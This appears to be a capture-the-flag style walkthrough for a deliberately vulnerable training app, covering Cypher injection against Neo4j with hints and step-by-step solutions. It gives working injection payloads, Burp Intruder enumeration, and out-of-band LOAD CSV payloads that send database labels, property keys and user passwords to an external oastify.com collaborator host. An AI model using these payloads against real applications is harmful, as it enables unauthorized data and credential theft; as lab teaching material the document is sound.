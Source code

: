 ## Neo4j 

In part, this application tests your knowledge of Neo4j and Cypher Query Language. Below you will find hints and steps for full walkthroughs. 

### EASY

<details>
  <summary>Hints</summary>

  1. Can you modify the request before it gets sent to server?
  2. Can you modify the request so the application displays an error with the Cypher query? 
  3. Can you modify the request to include the Cypher equivalent to sql injection's ```x' or 'x'='x```?
</details>

<details>
  <summary>Walkthrough</summary>

  1. Browse to the Neo4j page of the app.
  2. Using Burp or ZAP, intercept your request after clicking "go" on the app's Neo4j page.
  3. Edit ```person=Tom+Hanks``` to ```person=xxxxx"``` in the request body.
  4. Forward the request.
  5. Back in your browser, observe the query in the error message.
  6. Send another request and intercept it.
  7. Edit the request: Change ```person=Tom+Hanks`` to ```person=Tom+Hanks" or person.name=~".*```.
  8. Forward the request.
  9. Back in your browser look for the FLAGs.
</details>

## Neo4j MEDIUM 

<details>
  <summary>Hints</summary>

  1. Modify the request so the application displays an error with the Cypher query. 
  2. The payload here depends on understanding Cypher Query Language as well as understanding how application code might rely on variable names used in the ```return`` portion of the query. 
</details>

<details>
  <summary>Walkthrough</summary>

  There are multiple ways to get the flags at this level, one of which does not require Cypher Injection; below is one that does, and requires some knowledge of Neo4j and Cypher Query Language.

  1. Browse to the Neo4j page of the app.
  2. Select something in the second dropdown.
  3. Using Burp or ZAP, intercept your request after clicking "go" on the app's Neo4j page.
  4. Edit ```person=Tom+Hanks``` to ```person=Tom+Hanks"``` in the request body.
  5. Forward the request.
  6. Back in your browser, observe the query in the error message.
  7. Send another request and intercept it.
  8. Edit the request: Change ```person=Tom+Hanks`` to ```person=Tom+Hanks"})-[role]-(movie) return person,role,movie//```.
  9. Create a text file containing the list of names from the select dropdown.
  10. Use Burp intruder to replace ```Tom+Hanks``` with the names from the file. 
  11. Find results in intruder that contain the text FLAG.
</details>

## Neo4j HARD

## Neo4j BONUS  

<details>
  <summary>Hints</summary>

  1. To get the BONUS flags, you will need either:
    * Your own webserver where you may monitor access logs 
    * [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) 
  2. You will need to understand how to use [Neo4j's db.labels() and db.propertyKeys() procedures](https://Neo4j.com/docs/cypher-manual/current/clauses/call/) to map this database.
  3. You will need to understand how to use [Neo4j's LOAD CSV functionality](https://Neo4j.com/developer/guide-import-csv/) to cause Neo4j to make http requests.
  4. You will need to understand how to use the two together to [extract information from Neo4j](https://www.sidechannel.blog/en/the-cypher-injection-saga/).
</details>

<details>
  <summary>More Hints</summary>

You need [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client), which is sadly only available with Burpsuite Pro, or your own webserver where you are able to see HTTP access requests. You could add a basic webserver container to this set up and use that server's IP address and access logs in place of Burp Collaborator.

1. Set your challenge level to Medium
2. Get list of all labels in the database and look for something interesting

```
person=Christian+Bale"+CALL+db.labels()+YIELD+label+LOAD+CSV+FROM+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2blabel+AS+r+return+person//&search=go
person=Christian+Bale"+CALL+db.labels()+YIELD+label+LOAD+CSV+FROM+'https://your.burpcollaboratorurl.com/'%2bpropertyKey+AS+r+return+person//&search=go
```

3. Get list of all properties in the database and look for something interesting

```
person=Christian+Bale"+CALL+db.propertyKeys()+YIELD+propertyKey+LOAD+CSV+from+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2bpropertyKey+AS+r+return+person//&search=go
person=Christian+Bale"+CALL+db.propertyKeys()+YIELD+propertyKey+LOAD+CSV+from+'https://your.burpcollaboratorurl.com/'%2bpropertyKey+AS+r+return+person//&search=go
```

4. Try variations of the following payload, replacing LABEL with an actual label and PROPERTY with an actual property from steps 1 & 2. This will tell you what properties go with what labels - if no error is thrown you have a property matched to a label.

```
person=Christian+Bale"})-[role]->(node:LABEL)+RETURN+person,role,node.PROPERTY&role=DIRECTED&search=go
```

For example, this should throw an error

```
person=Christian+Bale"})-[role]->(node:Person)+RETURN+person,role,node.title&role=DIRECTED&search=go
```

And this should not throw an error, but you won't see the data for ```node.title``` because of the code that's printing data to the screen

```
person=Christian+Bale"})-[role]->(node:Movie)+RETURN+person,role,node.title&role=DIRECTED&search=go
```

5. Once you've decided what LABEL and PROPERTY you are interested in, use the following payload, foreach person in the database, replacing LABEL with the label and PROPERTY with the property and watch your collaborator space or your server access logs. 

```
person=Tom+Cruise"})-[role]->(node:LABEL)+LOAD+CSV+from+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2bperson.name%2b'/'%2bnode.PROPERTY+AS+r+return+person//&search=go//&role=DIRECTED&search=go
```

For example

```
person=Tom+Cruise"})-[role]->(node:User)+LOAD+CSV+from+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2bperson.title%2b'/'%2bnode.password+AS+r+return+person//&search=go//&role=DIRECTED&search=go
```

6. Some of the flags may need to be further figured out.
</details>


<details>
  <summary>Exact steps to FLAGS</summary>

You need [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client), which is sadly only available with Burpsuite Pro, or your own webserver where you are able to see HTTP access requests. You could add a basic webserver container to this set up and use that server's IP address and access logs in place of Burp Collaborator.


1. Set your challenge level to Medium
2. Get a list of all labels in the database - you are looking for the ```User``` label.

```
person=Christian+Bale"+CALL+db.labels()+YIELD+label+LOAD+CSV+FROM+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2blabel+AS+r+return+person//&search=go
person=Christian+Bale"+CALL+db.labels()+YIELD+label+LOAD+CSV+FROM+'https://your.burpcollaboratorurl.com/'%2bpropertyKey+AS+r+return+person//&search=go
```

3. Get list of all properties in the database - you are looking for the ```password``` label. 

```
person=Christian+Bale"+CALL+db.propertyKeys()+YIELD+propertyKey+LOAD+CSV+from+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2bpropertyKey+AS+r+return+person//&search=go
person=Christian+Bale"+CALL+db.propertyKeys()+YIELD+propertyKey+LOAD+CSV+from+'https://your.burpcollaboratorurl.com/'%2bpropertyKey+AS+r+return+person//&search=go
```

4. Use the following payloads to get the BONUS flags.

```
person=Tom+Tykwer"})-[role]->(node:User)+LOAD+CSV+from+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2bperson.title%2b'/'%2bnode.password+AS+r+return+person//&search=go//&role=DIRECTED&search=go

person=Tom+Cruise"})-[role]->(node:User)+LOAD+CSV+from+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2bperson.title%2b'/'%2bnode.password+AS+r+return+person//&search=go//&role=DIRECTED&search=go

person=Tom+Skerritt"})-[role]->(node:User)+LOAD+CSV+from+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2bperson.title%2b'/'%2bnode.password+AS+r+return+person//&search=go//&role=DIRECTED&search=go
```
5. The BONUS^MEDIUM password is base64 encoded 3x. 
6. The BONUS^HARD password is encoded using Ceasar Cipher then converted to asciihex then base64 encoded.
</details>
